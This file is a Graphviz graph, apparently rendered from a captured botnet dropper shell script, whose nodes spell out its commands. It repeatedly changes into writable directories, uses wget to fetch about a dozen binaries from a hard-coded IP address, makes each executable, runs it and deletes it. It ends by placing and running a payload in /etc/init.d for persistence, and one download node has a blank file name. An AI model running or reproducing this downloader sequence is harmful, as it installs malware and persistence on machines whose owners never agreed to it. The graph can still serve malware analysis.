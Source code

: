 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://112.211.190.198/lungkasssssss "];
10 -> 12 [label=";,"];
12 [label="chmod +x lungkasssssss "];
12 -> 14 [label=";,"];
14 [label="./lungkasssssss "];
14 -> 16 [label=";,"];
16 [label="rm -rf lungkasssssss "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://112.211.190.198/mangosssssss "];
28 -> 30 [label=";,"];
30 [label="chmod +x mangosssssss "];
30 -> 32 [label=";,"];
32 [label="./mangosssssss "];
32 -> 34 [label=";,"];
34 [label="rm -rf mangosssssss "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://112.211.190.198/opengglsssssss "];
46 -> 48 [label=";,"];
48 [label="chmod +x opengglsssssss "];
48 -> 50 [label=";,"];
50 [label="./opengglsssssss "];
50 -> 52 [label=";,"];
52 [label="rm -rf opengglsssssss "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://112.211.190.198/vastsssssss "];
64 -> 66 [label=";,"];
66 [label="chmod +x vastsssssss "];
66 -> 68 [label=";,"];
68 [label="./vastsssssss "];
68 -> 70 [label=";,"];
70 [label="rm -rf vastsssssss "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://112.211.190.198/greypsssssss "];
82 -> 84 [label=";,"];
84 [label="chmod +x greypsssssss "];
84 -> 86 [label=";,"];
86 [label="./greypsssssss "];
86 -> 88 [label=";,"];
88 [label="rm -rf greypsssssss "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://112.211.190.198/kuhamosssssss "];
100 -> 102 [label=";,"];
102 [label="chmod +x kuhamosssssss "];
102 -> 104 [label=";,"];
104 [label="./kuhamosssssss "];
104 -> 106 [label=";,"];
106 [label="rm -rf kuhamosssssss "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://112.211.190.198/marcosssssss "];
118 -> 120 [label=";,"];
120 [label="chmod +x marcosssssss "];
120 -> 122 [label=";,"];
122 [label="./marcosssssss "];
122 -> 124 [label=";,"];
124 [label="rm -rf marcosssssss "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://112.211.190.198/chikosssssss "];
136 -> 138 [label=";,"];
138 [label="chmod +x chikosssssss "];
138 -> 140 [label=";,"];
140 [label="./chikosssssss "];
140 -> 142 [label=";,"];
142 [label="rm -rf chikosssssss "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://112.211.190.198/pchikosssssss "];
154 -> 156 [label=";,"];
156 [label="chmod +x pchikosssssss "];
156 -> 158 [label=";,"];
158 [label="./pchikosssssss "];
158 -> 160 [label=";,"];
160 [label="rm -rf pchikosssssss "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://112.211.190.198/cosssssss "];
172 -> 174 [label=";,"];
174 [label="chmod +x cosssssss "];
174 -> 176 [label=";,"];
176 [label="./cosssssss "];
176 -> 178 [label=";,"];
178 [label="rm -rf cosssssss "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://112.211.190.198/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://112.211.190.198/facebooksssssss3 "];
208 -> 210 [label=";,"];
210 [label="chmod +x facebooksssssss3 "];
210 -> 212 [label=";,"];
212 [label="./facebooksssssss3 "];
212 -> 214 [label=";,"];
214 [label="rm -rf facebooksssssss3 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://112.211.190.198/netdeldsssssss "];
226 -> 228 [label=";,"];
228 [label="chmod +x netdeldsssssss "];
228 -> 230 [label=";,"];
230 [label="./netdeldsssssss "];
230 -> 232 [label=";,"];
232 [label="rm -rf netdeldsssssss "];
232 -> 234 [label=";,"];
234 [label="cd /etc/init.d "];
234 -> 234
236 [label="wget http://112.211.190.198/tukhang "];
236 -> 238 [label=";,"];
238 [label="chmod 0777 tukhang "];
238 -> 240 [label=";,"];
240 [label="./tukhang "];
240 -> 241 [label=";,"];
}
